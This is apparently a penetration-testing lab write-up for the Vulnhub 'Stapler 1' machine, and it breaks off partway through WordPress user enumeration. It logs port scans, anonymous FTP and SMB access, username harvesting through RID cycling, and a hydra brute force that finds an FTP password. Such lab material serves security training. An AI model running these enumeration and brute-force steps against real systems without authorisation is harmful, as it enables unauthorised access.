


# OSCP Vulnhub Set 1 - Stapler 1

Lab link: http://ccmtlab.ccmt.home.arpa:8888/user/missions/boxes?uuid=998d18fb-ddae-43c5-9515-583205736776

Target IP: 10.101.85.17

---

## Scanning and Enumeration

### Nmap

Scan all popular ports with OS, version, and script detection.

```
nmap -Pn -A 10.101.85.17
```

Identified an anonymous FTP login vulnerability on port 21 and a raw service hosting a PKZIP archive on port 666.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/07]
└─$ nmap -Pn -A 10.101.85.17
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-24 22:50 -0400
Nmap scan report for 10.101.85.17
Host is up (0.0028s latency).
Not shown: 992 filtered tcp ports (no-response)
PORT     STATE  SERVICE     VERSION
20/tcp   closed ftp-data
21/tcp   open   ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 550 Permission denied.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.101.55.75
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open   ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 81:21:ce:a1:1a:05:b1:69:4f:4d:ed:80:28:e8:99:05 (RSA)
|   256 5b:a5:bb:67:91:1a:51:c2:d3:21:da:c0:ca:f0:db:9e (ECDSA)
|_  256 6d:01:b7:73:ac:b0:93:6f:fa:b9:89:e6:ae:3c:ab:d3 (ED25519)
53/tcp   open   tcpwrapped
80/tcp   open   http        PHP cli server 5.5 or later
|_http-title: 404 Not Found
139/tcp  open   netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
666/tcp  open   pkzip-file  .ZIP file
| fingerprint-strings: 
|   NULL: 
|     message2.jpgUT 
|     QWux
|     "DL[E
|     #;3[
|     \xf6
|     u([r
|     qYQq
|     Y_?n2
|     3&M~{
|     9-a)T
|     L}AJ
|_    .npy.9
...[snip]...
```

---

### Port 666

Downloaded the ZIP file from port 666 and extracted its contents.

```
wget http://10.101.85.17:666 -O secret.zip
unzip secret.zip
```

The extracted archive contained an image file depicting a terminal screenshot. The image shows an echo command triggering a segmentation fault, strongly hinting at a potential Buffer Overflow vulnerability on the target system.


---

### FTP

Connected to the FTP server as anonymous to collect data.

```
ftp 10.101.85.17
anonymous
```

Only a single file named note was found in the FTP directory.

```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jun 04  2016 .
drwxr-xr-x    2 0        0            4096 Jun 04  2016 ..
-rw-r--r--    1 0        0             107 Jun 03  2016 note
226 Directory send OK.
```

Downloaded the file and viewed its contents on Kali

```
get note
exit
cat note
```

The note reveals a message from John to Elly, instructing her to update payload information and leave it in her FTP account.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/07]
└─$ cat note     
Elly, make sure you update the payload information. Leave it in your FTP account once your are done, John.
```

Attempted to connect via SSH to gather more information.

```
ssh 10.101.85.17
```

---

### SSH

The SSH banner revealed another potential username, "barry".

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/07]
└─$ ssh 10.101.85.17
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
-----------------------------------------------------------------
~          Barry, don't forget to put a message here           ~
-----------------------------------------------------------------
```

### Dirsearch

Ran dirsearch to scan for hidden directories and files on the web server.

```
dirsearch -u http://10.101.85.17 -t 50
```

The scan completed quickly and identified three standard Linux configuration files accessible via the web root.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/07]
└─$ dirsearch -u http://10.101.85.17 -t 50
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/ccmtlab/07/reports/http_10.101.85.17/_26-05-25_00-17-09.txt

Target: http://10.101.85.17/

[00:17:09] Starting: 
[00:17:09] 200 -  220B  - /.bash_logout                                     
[00:17:10] 200 -    4KB - /.bashrc                                          
[00:17:12] 200 -  675B  - /.profile                                         
                                                                             
Task Completed
```

Downloaded the identified configuration files using wget to inspect their contents locally.

```
wget http://10.101.85.17/.bash_logout
wget http://10.101.85.17/.bashrc
wget http://10.101.85.17/.profile
```

Inspected the contents of .bash_logout, .bashrc, and .profile using cat. No sensitive information, credentials, or custom modifications were found, as all files contained only standard default Linux configurations.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/07]
└─$ cat .bash_logout          
# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy

if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
                                                                                                                   
┌──(kali㉿kali)-[~/Desktop/ccmtlab/07]
└─$ cat .bashrc     
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

# don't put duplicate lines or lines starting with space in the history.
# See bash(1) for more options
HISTCONTROL=ignoreboth

# append to the history file, don't overwrite it
shopt -s histappend

# for setting history length see HISTSIZE and HISTFILESIZE in bash(1)
HISTSIZE=1000
HISTFILESIZE=2000

# check the window size after each command and, if necessary,
# update the values of LINES and COLUMNS.
shopt -s checkwinsize

# If set, the pattern "**" used in a pathname expansion context will
# match all files and zero or more directories and subdirectories.
#shopt -s globstar

# make less more friendly for non-text input files, see lesspipe(1)
[ -x /usr/bin/lesspipe ] && eval "$(SHELL=/bin/sh lesspipe)"

# set variable identifying the chroot you work in (used in the prompt below)
if [ -z "${debian_chroot:-}" ] && [ -r /etc/debian_chroot ]; then
    debian_chroot=$(cat /etc/debian_chroot)
fi

# set a fancy prompt (non-color, unless we know we "want" color)
case "$TERM" in
    xterm-color|*-256color) color_prompt=yes;;
esac

# uncomment for a colored prompt, if the terminal has the capability; turned
# off by default to not distract the user: the focus in a terminal window
# should be on the output of commands, not on the prompt
#force_color_prompt=yes

if [ -n "$force_color_prompt" ]; then
    if [ -x /usr/bin/tput ] && tput setaf 1 >&/dev/null; then
        # We have color support; assume it's compliant with Ecma-48
        # (ISO/IEC-6429). (Lack of such support is extremely rare, and such
        # a case would tend to support setf rather than setaf.)
        color_prompt=yes
    else
        color_prompt=
    fi
fi

if [ "$color_prompt" = yes ]; then
    PS1='${debian_chroot:+($debian_chroot)}\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '
else
    PS1='${debian_chroot:+($debian_chroot)}\u@\h:\w\$ '
fi
unset color_prompt force_color_prompt

# If this is an xterm set the title to user@host:dir
case "$TERM" in
xterm*|rxvt*)
    PS1="\[\e]0;${debian_chroot:+($debian_chroot)}\u@\h: \w\a\]$PS1"
    ;;
*)
    ;;
esac

# enable color support of ls and also add handy aliases
if [ -x /usr/bin/dircolors ]; then
    test -r ~/.dircolors && eval "$(dircolors -b ~/.dircolors)" || eval "$(dircolors -b)"
    alias ls='ls --color=auto'
    #alias dir='dir --color=auto'
    #alias vdir='vdir --color=auto'

    alias grep='grep --color=auto'
    alias fgrep='fgrep --color=auto'
    alias egrep='egrep --color=auto'
fi

# colored GCC warnings and errors
#export GCC_COLORS='error=01;31:warning=01;35:note=01;36:caret=01;32:locus=01:quote=01'

# some more ls aliases
alias ll='ls -alF'
alias la='ls -A'
alias l='ls -CF'

# Add an "alert" alias for long running commands.  Use like so:
#   sleep 10; alert
alias alert='notify-send --urgency=low -i "$([ $? = 0 ] && echo terminal || echo error)" "$(history|tail -n1|sed -e '\''s/^\s*[0-9]\+\s*//;s/[;&|]\s*alert$//'\'')"'

# Alias definitions.
# You may want to put all your additions into a separate file like
# ~/.bash_aliases, instead of adding them here directly.
# See /usr/share/doc/bash-doc/examples in the bash-doc package.

if [ -f ~/.bash_aliases ]; then
    . ~/.bash_aliases
fi

# enable programmable completion features (you don't need to enable
# this, if it's already enabled in /etc/bash.bashrc and /etc/profile
# sources /etc/bash.bashrc).
if ! shopt -oq posix; then
  if [ -f /usr/share/bash-completion/bash_completion ]; then
    . /usr/share/bash-completion/bash_completion
  elif [ -f /etc/bash_completion ]; then
    . /etc/bash_completion
  fi
fi
                                                                                                                   
┌──(kali㉿kali)-[~/Desktop/ccmtlab/07]
└─$ cat .profile 
# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
        . "$HOME/.bashrc"
    fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi
```

---

### SMB

Enumerated the Samba shares on the target to identify accessible network directories.

```
smbclient -L //10.101.85.17 -N
```

The scan listed available shares, revealing a user directory kathy, a temporary folder tmp, and two potential usernames "kathy" and "fred".

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/07]
└─$ smbclient -L //10.101.85.17 -N

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        kathy           Disk      Fred, What are we doing here?
        tmp             Disk      All temporary files should be stored here
        IPC$            IPC       IPC Service (red server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            KIOPTRIX4
```

Accessed the kathy shared directory anonymously to check for accessible files.

```
smbclient //10.101.85.17/kathy -N
```

The connection was successful without a password. Listing the directory contents revealed two subdirectories named kathy_stuff and backup.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/07]
└─$ smbclient //10.101.85.17/kathy -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jun  3 12:52:52 2016
  ..                                  D        0  Mon Jun  6 17:39:56 2016
  kathy_stuff                         D        0  Sun Jun  5 11:02:27 2016
  backup                              D        0  Sun Jun  5 11:04:14 2016
```

Discovered three files across the two subdirectories: todo-list.txt in kathy_stuff, and vsftpd.conf along with wordpress-4.tar.gz in backup.

```
smb: \> cd kathy_stuff
smb: \kathy_stuff\> ls
  .                                   D        0  Sun Jun  5 11:02:27 2016
  ..                                  D        0  Fri Jun  3 12:52:52 2016
  todo-list.txt                       N       64  Sun Jun  5 11:02:27 2016

                19478204 blocks of size 1024. 16014580 blocks available
smb: \kathy_stuff\> cd ..
smb: \> cd backup
smb: \backup\> ls
  .                                   D        0  Sun Jun  5 11:04:14 2016
  ..                                  D        0  Fri Jun  3 12:52:52 2016
  vsftpd.conf                         N     5961  Sun Jun  5 11:03:45 2016
  wordpress-4.tar.gz                  N  6321767  Mon Apr 27 13:14:46 2015
  cd ..
```

Downloaded the identified files from both subdirectories to the local Kali machine for analysis.

```
get \kathy_stuff\todo-list.txt
get \backup\vsftpd.conf
get \backup\wordpress-4.tar.gz
exit
```

Analyzed the contents of todo-list.txt to find sensitive notes or clues.

```
cat '\kathy_stuff\todo-list.txt'
```

The file contained a short note mentioning a backup for "Initech" but did not reveal any credentials.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/07]
└─$ cat '\kathy_stuff\todo-list.txt'
I'm making sure to backup anything important for Initech, Kathy
```

Analyzed the vsftpd.conf file to inspect the FTP server configuration.

```
cat '\backup\vsftpd.conf' 
```

The configuration revealed a critical security misconfiguration where the local root directory for FTP users is mapped directly to the system configuration directory /etc.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/07]
└─$ cat '\backup\vsftpd.conf' 
# Example config file /etc/vsftpd.conf
...[snip]...
# You may restrict local users to their home directories.  See the FAQ for
# the possible risks in this before using chroot_local_user or
# chroot_list_enable below.
chroot_local_user=YES
userlist_enable=YES
local_root=/etc
...[snip]...
```

Executed enum4linux to perform automated, deep SMB enumeration and targeted user harvesting.

```
enum4linux -a 10.101.85.17 > enum4linux.txt
```

The scan successfully extracted the password policy parameters and enumerated a comprehensive list of valid local Unix system users via RID cycling.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/07]
└─$ cat enum4linux.txt       
...[snip]...

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                         
                                                                                                                    
S-1-22-1-1000 Unix User\peter (Local User)                                                                          
S-1-22-1-1001 Unix User\RNunemaker (Local User)
S-1-22-1-1002 Unix User\ETollefson (Local User)
S-1-22-1-1003 Unix User\DSwanger (Local User)
S-1-22-1-1004 Unix User\AParnell (Local User)
S-1-22-1-1005 Unix User\SHayslett (Local User)
S-1-22-1-1006 Unix User\MBassin (Local User)
S-1-22-1-1007 Unix User\JBare (Local User)
S-1-22-1-1008 Unix User\LSolum (Local User)
S-1-22-1-1009 Unix User\IChadwick (Local User)
S-1-22-1-1010 Unix User\MFrei (Local User)
S-1-22-1-1011 Unix User\SStroud (Local User)
S-1-22-1-1012 Unix User\CCeaser (Local User)
S-1-22-1-1013 Unix User\JKanode (Local User)
S-1-22-1-1014 Unix User\CJoo (Local User)
S-1-22-1-1015 Unix User\Eeth (Local User)
S-1-22-1-1016 Unix User\LSolum2 (Local User)
S-1-22-1-1017 Unix User\JLipps (Local User)
S-1-22-1-1018 Unix User\jamie (Local User)
S-1-22-1-1019 Unix User\Sam (Local User)
S-1-22-1-1020 Unix User\Drew (Local User)
S-1-22-1-1021 Unix User\jess (Local User)
S-1-22-1-1022 Unix User\SHAY (Local User)
S-1-22-1-1023 Unix User\Taylor (Local User)
S-1-22-1-1024 Unix User\mel (Local User)
S-1-22-1-1025 Unix User\kai (Local User)
S-1-22-1-1026 Unix User\zoe (Local User)
S-1-22-1-1027 Unix User\NATHAN (Local User)
S-1-22-1-1028 Unix User\www (Local User)
S-1-22-1-1029 Unix User\elly (Local User)

 ===============================( Getting printer info for 10.101.85.17 )===============================
                                                                                                                    
No printers returned.                                                                                               


enum4linux complete on Mon May 25 04:57:48 2026
```

Save them as users.txt

```
peter
RNunemaker
ETollefson
DSwanger
AParnell
SHayslett
MBassin
JBare
LSolum
IChadwick
MFrei
SStroud
CCeaser
JKanode
CJoo
Eeth
LSolum2
JLipps
jamie
Sam
Drew
jess
SHAY
Taylor
mel
kai
zoe
NATHAN
www
elly
```

---

## Exploitation

### FTP Port 21 brute-forcing

Brute-forced the FTP service using the extracted user list.

```
hydra -L users.txt -P users.txt ftp://10.101.85.17
```

text

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/07]
└─$ hydra -L users.txt -P users.txt ftp://10.101.85.17
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-05-25 05:13:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 900 login tries (l:30/p:30), ~57 tries per task
[DATA] attacking ftp://10.101.85.17:21/
[21][ftp] host: 10.101.85.17   login: SHayslett   password: SHayslett
[STATUS] 298.00 tries/min, 298 tries in 00:01h, 602 to do in 00:03h, 16 active
[STATUS] 292.33 tries/min, 877 tries in 00:03h, 23 to do in 00:01h, 16 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-05-25 05:17:01
```

```
ftp 10.101.85.17
SHayslett
SHayslett
```


---

<!-- 
---

### Nmap 2

Ran a targeted Nmap scan on ports above 1000 to look for hidden services.

```
nmap -Pn -A -p1000- 10.101.85.17
```

The scan discovered an open MySQL database on port 3306 and an alternative HTTP web server on port 12380. The web server title revealed another potential username, "tim".

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/07]
└─$ nmap -Pn -A -p1000- 10.101.85.17
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-25 02:20 -0400
Nmap scan report for 10.101.85.17
Host is up (0.0039s latency).
Not shown: 64534 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
3306/tcp  open  mysql   MySQL 5.7.33-0ubuntu0.16.04.1
| ssl-cert: Subject: commonName=MySQL_Server_5.7.33_Auto_Generated_Server_Certificate
| Not valid before: 2024-10-16T12:39:02
|_Not valid after:  2034-10-14T12:39:02
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.33-0ubuntu0.16.04.1
|   Thread ID: 2480
|   Capabilities flags: 65535
|   Some Capabilities: SupportsTransactions, ConnectWithDatabase, LongPassword, IgnoreSigpipes, InteractiveClient, Speaks41ProtocolOld, Support41Auth, LongColumnFlag, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, SwitchToSSLAfterHandshake, FoundRows, ODBCClient, Speaks41ProtocolNew, SupportsCompression, IgnoreSpaceBeforeParenthesis, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: 0U\x19k\[0/tCgy5Gnb.z?]
|_  Auth Plugin Name: mysql_native_password
|_ssl-date: TLS randomness does not represent time
12380/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Tim, we need to-do better next year for Initech
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.11 - 4.9 (97%), Linux 3.13 (94%), Linux 3.10 - 3.16 (93%), Linux 3.10 - 4.11 (92%), Linux 3.13 - 4.4 (92%), Linux 3.16 - 4.6 (92%), Linux 3.8 - 3.16 (92%), Linux 4.0 - 4.4 (92%), Linux 4.4 (92%), Linux 3.2 - 4.14 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 3306/tcp)
HOP RTT     ADDRESS
1   4.92 ms 10.101.55.1
2   5.29 ms 10.101.85.17

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 136.01 seconds
```

### Dirsearch 2

Scanned port 12380 using nikto to identify web vulnerabilities on plain HTTP.

```
nikto -h 10.101.85.17 -p 12380
```

The scan encountered unusual response headers and failed to fully enumerate the directories, suggesting that the web server enforces SSL/TLS.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/07]
└─$ nikto -h 10.101.85.17 -p 12380    
- Nikto v2.6.0
---------------------------------------------------------------------------
+ Target IP:          10.101.85.17
+ Target Hostname:    10.101.85.17
+ Target Port:        12380
+ Platform:           Linux/Unix
+ Start Time:         2026-05-25 02:48:16 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ ERROR: Failed to check for updates: 403
+ [999100] /: Uncommon header(s) 'dave' found, with contents: Soemthing doesn't look right here.
+ No CGI Directories found (use '-C all' to force check all possible dirs). CGI tests skipped.
+ [600050] Apache/2.4.18 appears to be outdated (current is at least 2.4.66).
```

---

### Nikto 2

Rescanned port 12380 with the -ssl flag to force an encrypted connection.

```
nikto -h 10.101.85.17 -p 12380 -ssl
```

The SSL scan completed successfully, exposing an SSL certificate registered to "Red.Initech" along with a hidden /robots.txt file and an active /phpmyadmin/ directory.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/07]
└─$ nikto -h 10.101.85.17 -p 12380 -ssl
- Nikto v2.6.0
---------------------------------------------------------------------------
+ Target IP:          10.101.85.17
+ Target Hostname:    10.101.85.17
+ Target Port:        12380
---------------------------------------------------------------------------
+ SSL Info:           Subject:  /C=UK/ST=Somewhere in the middle of nowhere/L=Really, what are you meant to put here?/O=Initech/OU=Pam: I give up. no idea what to put here./CN=Red.Initech/emailAddress=pam@red.localhost
                      CN:       Red.Initech
                      Ciphers:  ECDHE-RSA-AES256-GCM-SHA384
                      Issuer:   /C=UK/ST=Somewhere in the middle of nowhere/L=Really, what are you meant to put here?/O=Initech/OU=Pam: I give up. no idea what to put here./CN=Red.Initech/emailAddress=pam@red.localhost
+ Platform:           Unknown
+ Start Time:         2026-05-25 02:55:17 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ ERROR: Failed to check for updates: 403
+ [999100] /: Uncommon header(s) 'dave' found, with contents: Soemthing doesn't look right here.
+ No CGI Directories found (use '-C all' to force check all possible dirs). CGI tests skipped.
+ [999996] /robots.txt: contains 2 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt
+ [600050] Apache/2.4.18 appears to be outdated (current is at least 2.4.66).
+ [999993] /: Hostname '10.101.85.17' does not match certificate names (CN: Red.Initech, SAN: none). See: https://cwe.mitre.org/data/definitions/297.html
+ [013587] /: Suggested security header missing: referrer-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy
+ [013587] /: Suggested security header missing: strict-transport-security. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security
+ [013587] /: Suggested security header missing: content-security-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
+ [013587] /: Suggested security header missing: x-content-type-options. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Content-Type-Options
+ [013587] /: Suggested security header missing: permissions-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Permissions-Policy
+ [999990] OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
+ [999100] /phpmyadmin/changelog.php: Uncommon header(s) 'x-ob_mode' found, with contents: 1.
+ [003584] /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /: No creds found for realm 'phpMyAdmin Setup'
+ [007342] /: X-Frame-Options header is deprecated and was replaced with the Content-Security-Policy HTTP header with the frame-ancestors directive. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/X-Frame-Options
+ [007352] /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ 8442 requests: 17 errors and 14 items reported on the remote host
+ End Time:           2026-05-25 03:07:27 (GMT-4) (730 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Accessed the robots.txt file on port 12380 to find disallowed web directories.

```
https://10.101.85.17:12380/robots.txt
```

The file contents revealed two restricted directories: /admin112233/ and /blogblog/.

```
User-agent: *
Disallow: /admin112233/
Disallow: /blogblog/
```

Investigated the restricted /admin112233/ directory to check for administrative panels.

```
https://10.101.85.17:12380/admin112233/
```

The directory redirected to an unrelated external website via a popup, yielding no useful administrative information.



Investigated the restricted /blogblog/ directory to identify the main web application.

```
https://10.101.85.17:12380/blogblog/
```

The directory successfully loaded the Initech home page, which is running on top of a WordPress platform.



---

### Wpscan

Executed wpscan with user enumeration enabled to harvest valid WordPress accounts.

```
wpscan --url https://10.101.85.17:12380/blogblog/ --disable-tls-checks --no-update -e u
```

text

```                                                                                                                   
┌──(kali㉿kali)-[~/Desktop/ccmtlab/07]
└─$ wpscan --url https://10.101.85.17:12380/blogblog/ --disable-tls-checks --no-update -e u
...[snip]...

[i] User(s) Identified:

[+] 
 | Found By: Author Posts - Display Name (Passive Detection)

[+] kathy
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] John Smith
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By: Rss Generator (Passive Detection)

[+] heather
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] john
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] elly
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] peter
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] barry
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] garry
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] harry
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] scott
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] tim
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
